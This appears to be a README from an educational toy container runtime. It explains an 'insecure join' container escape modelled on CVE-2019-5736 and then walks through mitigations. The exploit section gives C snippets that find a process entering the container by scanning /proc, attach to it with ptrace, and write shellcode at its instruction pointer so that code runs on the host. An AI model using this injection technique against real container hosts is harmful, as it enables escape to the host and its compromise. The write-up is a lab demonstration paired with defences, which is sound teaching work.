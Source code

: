 # Insecure Join

This idea is inspired by "Failed approaches" of [the CVE-2019-5736 report](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html). When an external process enters an existing namespace, it may be able to hijack the process from within the container if it does not fork "after entering all namespaces".

## How does the exploit work?

Run exploits inside a container. Then use `drofune exec` to enter an existing container.

![How it works](how_it_works.gif)

As you can see, the command execution is canceled and `touch hacked` is performed on the host.

First, wait for a new process comes into the container in a loop.

```c
for (found = 0; found == 0;) {
  dir = opendir("/proc");

  for (dp = readdir(dir); dp != NULL; dp = readdir(dir)) {
    int len = 11 + strlen(dp->d_name) + 1;
    char *stat_file = malloc(len);
    snprintf(stat_file, len, "/proc/%s/stat", dp->d_name);
    fp = fopen(stat_file, "r");

    if (fp != NULL) {
      fscanf(fp, "%d %*s %*c %d", &pid, &ppid);
      fclose(fp);
      if (pid != 1 && ppid == 0) {
        printf("Found: %s\n", stat_file);
        found = 1;
        break;
      }
    }
    free(stat_file);
  }
  closedir(dir);
}
```

The PPID of the process that entered the namespace by setns(2) will be 0 (PID 1 is the container's init process, and this also has a PPID of 0)

Next, trace that process with ptrace(2).

```c
ptrace(PTRACE_ATTACH, pid, NULL, NULL);
```

The important thing is that `drofune exec` forks when it enters the PID namespace [**before** entering the mount namespace](https://github.com/wata727/drofune/blob/797f2d28c11c893344d92d34585af56d603cc954/exec.c#L104-L120). Once forked, this process will be visible from inside the container, so it will be controlled by ptrace(2). Worse still, this process belongs to the host's mount namespace.

Finally, rewrite the value of the rip register and insert an arbitrary code.

```c
struct user_regs_struct regs;
ptrace(PTRACE_GETREGS, pid, NULL, &regs);

int size = strlen(shellcode);
char *buf = (char*)malloc(size);
memset(buf, 0x0, size);
memcpy(buf, shellcode, size);
printf("Writing shell code...\n");
int i;
for (i = 0; i < size; i++) {
  ptrace(PTRACE_POKETEXT, pid, regs.rip + i, *(int *)(buf + i));
}

ptrace(PTRACE_DETACH, pid, 0, 0);
```

## Mitigations

Entering the existing container with `--secure-join` option allows to mitigate the vulnerability. When this option is given, fork after entering all namespaces.

![Secure join mitigation](secure_join_mitigation.gif)

```c
for (i = 0; i < namespaces_count; i++) {
  struct namespace ns = namespaces[i];
  enter_namespace(target_pid, ns);
  
  if (ns.value == CLONE_NEWPID) {
    pid = fork();
    if (pid > 0) {
      return pid;
    }
  }
}
```

https://github.com/wata727/drofune/blob/797f2d28c11c893344d92d34585af56d603cc954/exec.c#L104-L120

```c
for (i = 0; i < namespaces_count; i++) {
  struct namespace ns = namespaces[i];
  enter_namespace(target_pid, ns);
}

pid = fork();
```

https://github.com/wata727/drofune/blob/797f2d28c11c893344d92d34585af56d603cc954/exec.c#L131-L139

By forking after joining the mount namespace, you cannot attack the host even if it is ptraced.

It is also good way to drop the `CAP_SYS_PTRACE` capability so that ptrace cannot be run inside containers. You can try it with the `--drop-caps` option.

![Drop capabilities mitigation](drop_caps_mitigation.gif)

```c
for (i = 0; i < cap_size; i++) {
  prctl(PR_CAPBSET_DROP, caps[i], 0, 0, 0);
}
```

https://github.com/wata727/drofune/blob/797f2d28c11c893344d92d34585af56d603cc954/exec.c#L83-L89
https://github.com/wata727/drofune/blob/797f2d28c11c893344d92d34585af56d603cc954/drop_caps.c#L60-L65

In runc and crun, forks after joining all namespaces. Also, `CAP_SYS_TRACE` is dropped, and the ptrace(2) system call is filtered with seccomp.

Also, the lack of capabilities can be bypassed by performing unshare(2), but it cannot be reproduced in Drofune. According to man page of unshare(2):

> EPERM (since Linux 3.9) CLONE_NEWUSER was specified in flags and the caller is in a chroot environment (i.e., the caller's root directory does not match the root directory of the mount namespace in which it resides).

Because Drofune requires Linux kernel 3.18 or more, unshare(2) does not succeed in all environments.

runc and crun also have limited system calls for namespaces, so older Linux kernels cannot reproduce this problem.

## References

- [CVE-2019-5736: Escape from Docker and Kubernetes containers to root on host](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html)
- [コンピュータハイジャッキング / 酒井 和哉 著](https://www.ohmsha.co.jp/book/9784274222740/) (Japanese)
